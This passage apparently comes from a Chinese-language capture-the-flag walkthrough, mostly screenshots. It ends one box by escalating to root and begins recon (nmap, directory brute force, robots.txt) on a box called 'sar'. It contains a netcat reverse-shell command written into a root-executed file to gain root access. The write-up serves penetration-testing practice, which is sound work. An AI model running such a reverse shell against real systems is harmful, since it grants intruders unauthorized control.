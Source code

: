 ![image.png](https://s2.loli.net/2025/05/08/D6gYheiyrQ1IlGZ.png)

找到新的提示

![image.png](https://s2.loli.net/2025/05/08/bBUxvli1oVuCNAa.png)


用给出来的密码登录成功

第三个flag

![image.png](https://s2.loli.net/2025/05/08/cUHl7sFkvoQCuiw.png)

实在是没有思路了 看了wp 说是用了pspy

![image.png](https://s2.loli.net/2025/05/08/Igq2yRTMkQd8cbZ.png)

找到这个奇怪文件

因为是以root权限执行 我们写入反弹shell 借此来执行反弹shell

```
echo 'nc -e /bin/bash 192.168.110.128 7777' > .trash_old
```
[[shell和提权#^0be5ac]]

反弹成功 获得root权限

![image.png](https://s2.loli.net/2025/05/08/ZOzlxitkXBAK7Wm.png)


![image.png](https://s2.loli.net/2025/05/08/ZlzLJ5ebBW8PVSI.png)


# sar
## nmap扫描端口和文件爆破
![image.png](https://s2.loli.net/2025/05/09/7Wicwny9StprbTf.png)

只有一个80端口 文件爆破一下

![image.png](https://s2.loli.net/2025/05/09/DKgUflmOdZTYWaR.png)


查看一下 

php版本信息
![image.png](https://s2.loli.net/2025/05/09/rqsvx1lhyPfYJOF.png)


robots.txt告诉我们一个新的路径

![image.png](https://s2.loli.net/2025/05/09/r3HzgRcCPZQJG6y.png)


![image.png](https://s2.loli.net/2025/05/09/wzGs7CYpPWKByoO.png)
